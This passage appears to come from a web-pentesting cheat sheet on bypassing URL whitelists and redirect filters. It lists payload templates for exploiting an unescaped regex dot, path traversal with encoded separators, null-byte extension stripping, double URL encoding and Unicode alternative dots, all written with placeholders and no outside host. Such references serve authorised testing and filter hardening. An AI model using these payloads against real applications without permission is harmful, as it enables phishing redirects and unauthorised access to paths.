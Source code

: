 ###### Unescaped dot `.` character
The regex used for domain and subdomain verification contains an unescaped dot (.) character between them. This is a special case of the beforementioned concatenation payload:
```powershell
https://{whitelistsubdomain}{whitelistdomain}/
https://{whitelistsubdomain}-{whitelistdomain}/
https://{whitelistsubdomain}_{whitelistdomain}/
```

##### Path traversal
If there is no way to change whitelisted domain, it can still be possible (and often valuable) to try and change the path of redirect. The following payloads may be used for such purposes:
```powershell
https://{whitelistdomain}/{whitelistpath}/../interesting/path
https://{whitelistdomain}/{whitelistpath}/..\interesting/path
https://{whitelistdomain}/{whitelistpath}/..\/interesting/path
https://{whitelistdomain}/{whitelistpath}/../\interesting/path
https://{whitelistdomain}/{whitelistpath}/....//interesting/path
https://{whitelistdomain}/{whitelistpath}/..;/interesting/path
https://{whitelistdomain}/{whitelistpath}/..%5cinteresting/path
https://{whitelistdomain}/{whitelistpath}/..%2finteresting/path
https://{whitelistdomain}/{whitelistpath}/%2e%2e/interesting/path
https://{whitelistdomain}/{whitelistpath}/%2e%2e\interesting/path
https://{whitelistdomain}/{whitelistpath}/%2e%2e%2finteresting/path
https://{whitelistdomain}/{whitelistpath}/%2e%2e%5cinteresting/path
```

###### Bypassing extension or parameter appending
If path traversal is possible, but web application appends an extension to it, a null sign `\0` (`%00`) can be used to try and remove the appended extension.
```powershell
https://{whitelistdomain}/{whitelistpath}/../interesting/path%00
```

###### Double URL encoding
Double URL-encoding can also be used to try and trick a filter if web server supports it.
```powershell
. = %252e
/ = %252f
\ = %255c
%00 = %2500
```

### Unicode Normalization
>Unicode normalization is a process that ensures different binary representations of characters are standardized to the same binary value. 
>— [Hacktricks](https://book.hacktricks.xyz/pentesting-web/unicode-injection/unicode-normalization)

If implemented after filtering of user's input, Unicode normalization can be used to inject a character such as `.`,`#` or `@` resulting in bypass via their alternative representation. 

#### Alternative dot characters
Alternative `.` payloads that may normalize to `https://example.com/`:
```powershell
https://example%CB%91com/
https://example%CB%99com/
https://example%D5%9Fcom/
https://example%D7%83com/
https://example%D9%ABcom/
https://example%DB%94com/
https://example%E0%A5%B0com/
https://example%E1%8D%A2com/
https://example%E1%99%AEcom/
https://example%E1%9B%ABcom/
https://example%E1%9F%94com/
https://example%E2%80%A4com/
```